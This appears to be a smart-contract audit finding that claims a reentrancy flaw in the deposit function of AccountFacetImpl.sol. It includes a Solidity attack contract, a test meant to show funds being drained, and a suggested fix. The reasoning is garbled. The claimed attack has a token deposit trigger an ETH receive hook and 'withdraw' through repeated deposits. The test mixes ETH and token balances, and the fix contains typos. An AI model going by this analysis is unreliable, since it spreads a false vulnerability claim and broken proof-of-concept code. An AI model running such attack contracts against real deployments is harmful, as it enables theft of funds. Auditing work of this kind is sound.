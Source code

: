 Shambolic Marigold Mockingbird

High

# [H-1] RE-ENTRANCY attack in `Accout:AccountFacetImpl.sol` allow malicious actor to drain funds

### Summary

**Description:** The `Accout:AccountFacetImpl.sol:deposit` function does not follow CEI(check, effect and interaction) as a result of that any bad actor/contract can drain the funds.

### Root Cause

**Root Cause:** The root cause of the vulnerability is the failure to follow the CEI pattern in the `deposit` function, which allows for reentrancy attacks.

### Internal pre-conditions


### Internal Pre-conditions

1. **User needs to call `deposit` function** to set `AccountStorage.layout().balances[user]` to be at least the deposited amount.
2. **Malicious actor needs to deploy a contract** with a `receive` or `fallback` function that calls the `deposit` function.
3. **Malicious actor needs to call `deposit` function** with the malicious contract to set up the reentrancy loop.
4. **The `deposit` function must not follow the CEI pattern**, allowing the reentrancy attack to occur.

### Example:
- User needs to call `deposit` to set `AccountStorage.layout().balances[user]` to be at least the deposited amount.
- Malicious actor needs to deploy a contract with a `receive` or `fallback` function to set up the reentrancy loop.
- Malicious actor needs to call `deposit` with the malicious contract to initiate the attack.


### External pre-conditions

_No response_

### Attack Path

### Attack Path for THE Reentrancy Attack

1. **Multiple Users Call `deposit` Function:**
   - Several users call the `deposit` function to deposit funds into the `Account:AccountFacetImpl.sol` contract.

2. **Malicious Actor Sets Up a Contract:**
   - The malicious actor deploys a contract with a `receive` or `fallback` function designed to exploit the reentrancy vulnerability.

3. **Malicious Actor Initiates the Attack:**
   - The malicious actor calls the `deposit` function from their malicious contract, triggering the `receive` or `fallback` function.

4. **Reentrancy Loop:**
   - The `receive` or `fallback` function calls the `deposit` function again before the initial call completes, creating a loop that allows the malicious contract to repeatedly withdraw funds.

5. **Funds Drained:**
   - The reentrancy loop continues until the contract's balance is drained or the transaction is halted.


### Impact

**Impact:** 
possible to for a bad actor to drain all funds from the `Accout:AccountFacetImpl.sol` contract

### PoC

**Proof of Concept:**
1. multiple users call the `Accout:AccountFacetImpl.sol:deposit`functions 
2. bad actor set up a `fallback/receive` contract.
3. bad actor call the `Accout:AccountFacetImpl.sol:deposit` function
```solidity
    contract ReentrancyAttack {
    AccoutFacetImpl public accoutFacet;
    address public attacker;
    
    constructor(AccoutFacetImpl _accoutFacet) {
        accoutFacet = _accoutFacet;
        attacker = msg.sender;
    }

    receive() external payable {
        if (address(accoutFacet).balance >= 1 ether) {
            accoutFacet.deposit(attacker, 1 ether);
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Insufficient ETH");
        accoutFacet.deposit{value: 1 ether}(address(this), msg.value);
    }
}

contract ReentrancyTest is DSTest {
    AccoutFacetImpl accoutFacet;
    ReentrancyAttack reentrancyAttack;
    IERC20 collateralToken;

    function setUp() public {
        accoutFacet = new AccoutFacetImpl();
        collateralToken = IERC20(address(accoutFacet.collateral())); // Assuming collateral is an ERC20 token
        collateralToken.mint(address(this), 100 ether); // Mint tokens for testing
        reentrancyAttack = new ReentrancyAttack(accoutFacet);
    }

    function testReentrancyAttack() public {
        collateralToken.approve(address(accoutFacet), 10 ether); // Approve tokens for deposit
        accoutFacet.deposit(address(this), 10 ether); // Initial deposit
        
        uint256 initialBalance = collateralToken.balanceOf(address(this));
        reentrancyAttack.attack{value: 1 ether}(); // Launch the attack
        
        uint256 finalBalance = collateralToken.balanceOf(address(this));
        assertTrue(finalBalance > initialBalance, "Reentrancy attack failed to drain funds");
    }
}

```

### Mitigation

// **Recommended Mitigation:** 
//   1. dont be shy to smash non reenctrancy from OZ library to  `Accout:AccountFacetImpl.sol:deposit` function
//   2. follow CEI methodology/Pattern
  ```solidity 
+        import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
       //----code conination-----//
    	function deposit(address user, uint256 amount) internal nonReentrant{
+            // checks 
+            if (user == address(o)) {
+                revert zeroAddr();
+           }
+            if (amount == 0) {
+                revert zeroValue();
+            }
		GlobalAppStorage.Layout storage appLayout = GlobalAppStorage.layout();
+       // @audit Magic numbers... 1
		// use a constant instead 
		uint256 amountWith18Decimals = (amount * 1e18) / (10 ** IERC20Metadata(appLayout.collateral).decimals());
-		IERC20(appLayout.collateral).safeTransferFrom(msg.sender, address(this), amount);

+        AccountStorage.layout().balances[user] += amountWith18Decimals;

+		IERC20(appLayout.collateral).safeTransferFrom(msg.sender, address(this), amount);

-      AccountStorage.layout().balances[user] += amountWith18Decimals;
	}
```